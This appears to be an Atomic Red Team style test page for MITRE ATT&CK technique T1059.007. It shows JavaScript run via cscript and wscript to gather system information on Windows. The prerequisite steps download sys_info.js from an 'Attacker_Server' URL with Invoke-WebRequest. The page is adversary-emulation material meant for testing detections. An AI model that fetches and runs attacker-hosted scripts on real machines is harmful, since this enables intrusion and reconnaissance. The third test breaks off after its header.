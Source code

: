 # T1059.007A - javascript
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/007)
<blockquote>Adversaries may abuse various implementations of JavaScript for execution. JavaScript (JS) is a platform-independent scripting language (compiled just-in-time at runtime) commonly associated with scripts in webpages, though JS can be executed in runtime environments outside the browser.[1]

JScript is the Microsoft implementation of the same scripting standard. JScript is interpreted via the Windows Script engine and thus integrated with many components of Windows such as the Component Object Model and Internet Explorer HTML Application (HTA) pages.[2][3][4]

JavaScript for Automation (JXA) is a macOS scripting language based on JavaScript, included as part of Apple’s Open Scripting Architecture (OSA), that was introduced in OSX 10.10. Apple’s OSA provides scripting capabilities to control applications, interface with the operating system, and bridge access into the rest of Apple’s internal APIs. As of OSX 10.10, OSA only supports two languages, JXA and AppleScript. Scripts can be executed via the command line utility osascript, they can be compiled into applications or script files via osacompile, and they can be compiled and executed in memory of other programs by leveraging the OSAKit Framework.[5][6][7][8][9]

Adversaries may abuse various implementations of JavaScript to execute various behaviors. Common uses include hosting malicious scripts on websites as part of a Drive-by Compromise or downloading and executing these script files as secondary payloads. Since these payloads are text-based, it is also very common for adversaries to obfuscate their content as part of Obfuscated Files or Information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - javascript execution to gather local computer information - cscript](#atomic-test-1---javascript-execution-to-gather-local-computer-information---cscript)

- [Atomic Test #2 - javascript execution to gather local computer information - wscript](#atomic-test-2---javascript-execution-to-gather-local-computer-information---wscript)

- [Atomic Test #3 - javascript execution to Web Brower](#atomic-test-3---javascript-execution-to-Web-Browser)

<br/>

## Atomic Test #1 - Javascript execution to gather local computer information - cscript
Javascript execution test, execute Javascript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.007A.out.txt.

**Supported Platforms:** Windows




#### Inputs:
| Name            | Description           | Type   | Default Value                                             |
| --------------- | --------------------- | ------ | --------------------------------------------------------- |
| javascript      | Path to sample script | String | PathToAtomicsFolder&#92;T1059.007A&#92;src&#92;sys_info.js |
| Attacker_Server | Attacker Server URL   | URL    |


#### Attack Commands: Run with `powershell`! 


```powershell
cscript #{javascript} > $env:TEMP\T1059.007A.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\sys_info.js -ErrorAction Ignore
Remove-Item $env:TEMP\T1059.007A.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{javascript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{javascript}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "#{Attacker_Server}/atomic-red-team/master/atomics/A1059.007A/src/sys_info.js" -OutFile "$env:TEMP\sys_info.js"
New-Item -ItemType Directory (Split-Path #{javascript}) -Force | Out-Null
Copy-Item $env:TEMP\sys_info.js #{javascript} -Force
```




<br/>
<br/>

## Atomic Test #2 - Javascript execution to gather local computer information - wscript
Javascript execution test, execute Javascript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.007A.out.txt.

**Supported Platforms:** Windows


<br/>

#### Inputs:
| Name            | Description           | Type   | Default Value                                             |
| --------------- | --------------------- | ------ | --------------------------------------------------------- |
| javascript      | Path to sample script | String | PathToAtomicsFolder&#92;T1059.007A&#92;src&#92;sys_info.js |
| Attacker_Server | Attacker Server URL   | URL    |

<br/>

#### Attack Commands: Run with `powershell`! 


```powershell
wscript #{javascript} > $env:TEMP\T1059.007A.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1059.007A.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{javascript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{javascript}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "#{attacker_server}/atomic-red-team/master/atomics/T1059.007A/src/sys_info.js" -OutFile "$env:TEMP\sys_info.js"
New-Item -ItemType Directory (Split-Path #{javascript}) -Force | Out-Null
Copy-Item $env:TEMP\sys_info.js #{javascript} -Force
```

## Atomic Test #3 - Javascript execution to Web Browser 
Javascript execution test, execute Javascript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.007A.out.txt.

**Supported Platforms:** Windows


<br/>